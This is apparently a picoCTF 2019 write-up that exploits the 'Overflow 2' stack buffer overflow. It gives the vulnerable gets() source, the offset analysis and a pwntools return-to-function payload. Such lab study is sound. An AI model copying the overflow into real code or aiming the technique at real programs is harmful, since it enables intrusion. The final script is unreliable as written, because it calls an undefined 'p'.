






[Back](PicoFrontPage.md)

# Overflow 2
---

### Tools
* GEF-GDB
* Pwntools - Python3
* Your favourite text editor

### Source Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Some important points:
* Different to overflow-1 because flag function takes arguments - these arguments are checked before spitting out the flag file contents
* Calls `gets()` again

### Analysis

So, like overflow-1, the program calls `gets()` so we can overflow that and take control of the return address (feed it `flag()` function's address).
If we `disassemble vuln`, we can see the stack build-up when the `vuln()` function is called.

<!-- disasvulnoverflow2 -->


So, piecing all of it together, we can see the stack would probably look something like this:

<!-- StackOverflow2 -->


Doing the calculation: `0xb4 + 0x4 + 0x4 = 0xbc`.
Convert it to bytes through:
```
python
0xbc
```
And it should return 188 bytes.

Let's confirm if what we assumed is right through feeding a string.
Use the cyclic tool to get a string to give the program: `cyclic 200`.

Run GDB for the program.
Feed the string to the input and then analyze.

<!-- OverflowedOverflow2 -->


We see that `waab` or `0x62616177` is what is stored as the return address.
And so using `cyclic -l waab` it confirms that it is 188 bytes to reach `$eip`.

#### Arguments

Arguments are actually thrown onto the stack before the instruction pointer and can be referenced from the base pointer as you will be able to see in the images below.

We can `disassemble flag` to analyze the arguments for the `flag()` function.

<!-- Overflow2args -->


This can also be seen through a disassembler.

<!-- Overflow2argsdisassembler -->

<!-- Overflow2argsdisassembler2 -->


We can see that the arguments `0xdeadbeef` and `0xc0ded00d` are stored on the stack at `ebp + 0x8` and `ebp + 0xc`, respectively.

Now, do the classic, find out the `flag()` address.

### Exploit

Final script:
```python
from pwn import *

proc = process('./vuln') # specifying the process

# addr and arg variables
addr = 0x80485e6
arg0 = 0xDEADBEEF
arg1 = 0xC0DED00D

# create payload of 188 + return address + 4 bytes + arg1 + arg2
payload = b'A'*188 + p32(addr) + b'A'*4 + p32(arg0) + p32(arg1)

# keep receiving until character is read
p.recvuntil(b'Please enter your string:')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 1](overflow1writeup.md)   [New Overflow 1](newoverflow1writeup.md)